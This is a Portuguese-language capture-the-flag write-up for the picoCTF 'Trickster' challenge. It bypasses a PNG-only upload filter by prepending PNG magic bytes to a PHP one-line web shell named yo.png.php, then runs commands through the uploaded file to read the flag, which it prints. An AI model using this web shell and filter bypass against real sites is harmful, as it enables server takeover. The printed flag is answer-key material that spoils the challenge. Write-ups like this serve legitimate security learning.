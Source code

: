 # Trickster  
###### Resolvido por @Menegaldo
> Este é um CTF sobre [Upload Arbitrário de Arquivos, Execução Remota de Código (RCE) e Exposição de Diretórios e Arquivos Sensíveis

## Sobre o Desafio

Encontrei um aplicativo da web que pode ajudar a processar imagens: apenas imagens PNG!<br>
Detalhes adicionais estarão disponíveis após o lançamento de sua instância de desafio.

- [Trickster](https://play.picoctf.org/practice/challenge/445) 

## Solução  

Abrimos a URL do desafio e identificamos uma funcionalidade de upload que aceita apenas arquivos .png.

![image](https://github.com/user-attachments/assets/1ad8aadb-93a2-428b-b7a2-7ae33bc847cc)

Criamos um arquivo yo.php com uma simples payload PHP ```(<?=\$_GET[0]`?>`)```.

Tentamos enviá-lo, mas o servidor rejeitou, indicando que o nome do arquivo precisava conter .png.

![image](https://github.com/user-attachments/assets/5a513762-7cf8-4af4-8382-ff46da02f5dc)

Renomeamos o arquivo para yo.png.php e tentamos o upload novamente.
O servidor aceitou o nome, mas ainda rejeitou o arquivo dizendo que não era um PNG válido.

![image](https://github.com/user-attachments/assets/3b878932-f653-47d5-bef0-978a6afaa22f)

![image](https://github.com/user-attachments/assets/58157f2b-faf5-4fa4-8736-2362f4d855fd)

Pegamos os bytes mágicos do PNG (89 50 4E 47 0D 0A 1A 0A).
Criamos um arquivo base.png, abrimos em um editor hexadecimal e inserimos os bytes mágicos no início.

![image](https://github.com/user-attachments/assets/192391de-0113-44a6-ab5e-cec08305a643)

No final do arquivo, adicionamos a payload PHP ```(<?=\$_GET[0]`?>`)```.
Renomeamos para yo.png.php e fizemos o upload novamente.

![image](https://github.com/user-attachments/assets/5fc90973-f63b-44b4-93d2-7496179895dc)

![image](https://github.com/user-attachments/assets/c443c4ff-015d-44cc-b707-d0aad97d8398)

Resposta ao subir o arquivo criado.

![image](https://github.com/user-attachments/assets/f448d0dc-aa4d-44c9-a156-20f23310f1b9)

Testamos diretórios comuns (/uploads/, /files/, /images/) e encontramos nosso arquivo em:

```https
http://atlas.picoctf.net:62573/uploads/yo.png.php
```

Testamos a execução de código com ?0=id, confirmando o acesso

```
http://atlas.picoctf.net:62573/uploads/yo.png.php?0=id
```

Listamos arquivos no diretório

```
http://atlas.picoctf.net:62573/uploads/yo.png.php?0=ls ..
```

Encontramos GQ4DOOBVMMYGK.txt e lemos o conteúdo

```
http://atlas.picoctf.net:62573/uploads/yo.png.php?0=cat%20../GQ4DOOBVMMYGK.txt
```

![image](https://github.com/user-attachments/assets/77bd82c3-e2cd-4150-a259-d26c06d14ac9)

> Assim, obtemos a flag `picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_48785c0e}` 
